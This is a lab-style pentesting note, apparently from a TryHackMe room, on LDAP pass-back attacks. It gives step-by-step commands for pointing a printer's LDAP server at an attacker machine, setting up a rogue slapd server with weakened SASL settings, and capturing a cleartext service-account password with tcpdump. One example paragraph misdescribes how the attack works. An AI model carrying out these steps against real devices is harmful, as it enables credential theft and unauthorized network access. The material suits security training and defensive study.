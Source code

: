 --- ---

<h2>General</h2>

A rogue LDAP server is a malicious server that is set up to impersonate a legitimate LDAP server in order to trick clients into sending sensitive information or credentials to the attacker. LDAP (Lightweight Directory Access Protocol) is a protocol that is used to access and manage directory services over a network, such as a company's employee directory.

An attacker may set up a rogue LDAP server in order to exploit LDAP clients that are configured to use the rogue server as their LDAP server. For example, an attacker may set up a rogue LDAP server and then send a phishing email to employees, tricking them into believing that they need to login to the rogue server in order to access their email. If the employees fall for the trick and enter their login credentials into the rogue server, the attacker will be able to capture their credentials and use them to gain unauthorized access to the company's systems.

- Pass-Back Attack
	LDAP Pass-back attacks can be performed when we gain access to a device's configuration where the LDAP parameters are specified. This can be, for example, the web interface of a network printer. Usually, the credentials for these interfaces are kept to the default ones, such as `admin:admin` or `admin:password`. Here, we won't be able to directly extract the LDAP credentials since the password is usually hidden. However, we can alter the LDAP configuration, such as the IP or hostname of the LDAP server. In an LDAP Pass-back attack, we can modify this IP to our IP and then test the LDAP configuration, which will force the device to attempt LDAP authentication to our rogue device. We can intercept this authentication attempt to recover the LDAP credentials.
	
	For example, an employee's computer may be configured to use the legitimate LDAP server to authenticate their login credentials when they log into their computer. If the employee falls for a phishing attack and enters their login credentials into the rogue LDAP server, the attacker can pass the employee's credentials back to the legitimate LDAP server in order to authenticate the employee's login. This allows the attacker to gain access to the employee's account without the employee's knowledge.

---

<h2>Commands</h2>

An attacker may attempt to use a rogue LDAP server to steal the password that an application is using to communicate with an Active Directory (AD) server. The attacker can set up the rogue server to impersonate the legitimate LDAP server and trick the application into sending the password to the rogue server. The attacker can then examine the transmitted password in plain text and potentially use it to gain unauthorized access to the AD server. This type of attack is possible because many applications store passwords that are not viewable by users, and the attacker hopes to use the rogue server to obtain the password and bypass the security measures that are in place.

Important
	- LDAP authentication is a popular mechanism with third-party (non-Microsoft) applications that integrate with AD. These include applications and systems such as:
		-   Gitlab
		-   Jenkins
		-   Custom-developed web applications
		-   Printers
		-   VPNs  
	ㅤ
	- If you could gain a foothold on the correct host, such as a Gitlab server, it might be as simple as reading the configuration files to recover these AD credentials.


- Find an application that integrate with AD (Example -> Printer)
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/b2ab520a2601299ed9bf74d50168ca7d.png)

- Change the Server for your machine IP

- Start a netcat lisener (Option Number 1)
```
nc -lvp 389
```
	'---> If the response come back and does not make sence, setup a rogue server

Installing Rogue Server on the machine
```
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```

Configure the rogue LDAP server
```
sudo dpkg-reconfigure -p low slapd
```
	'---> Make sure to press `<No>` when requested if you want to skip server configuration:
	'---> For the DNS domain name, you want to provide our target domain, which is `X.something.com`:
	'---> Use this same name for the Organisation
	'---> Provide any Administrator password:
	'---> Select MDB as the LDAP database to use:
	'---> For the last two options, ensure the database is not removed when purged:
	'---> Move old database files before a new one is created:


Downgrading the supported authentication mechanisms
```
# Create a new file (location does not matter)
touch olcSaslSecProps.ldif
nano olcSaslSecProps.ldif (Add the following)
	#olcSaslSecProps.ldif
	dn: cn=config
	replace: olcSaslSecProps
	olcSaslSecProps: noanonymous,minssf=0,passcred

# Restart the service
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart

# Check permission
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```

Launch the rogue server on your machine
```
# Launch the server
sudo tcpdump -SX -i INTERFACE tcp port 389
```

Capturing LDAP Credentials  
```shell-session
...
	0x0030:  0560 8400 0000 3202 0102 0418 7a61 2e74  .`....2.....za.t
	0x0040:  7279 6861 636b 6d65 2e63 6f6d 5c73 7663  ryhackme.com\svc
	0x0050:  4c44 4150 8013 7472 7968 6163 6b6d 656c  LDAP..password11
```
	'---> Password11 is the password in this example

More information ---> https://medium.com/r3d-buck3t/pwning-printers-with-ldap-pass-back-attack-a0d8fa495210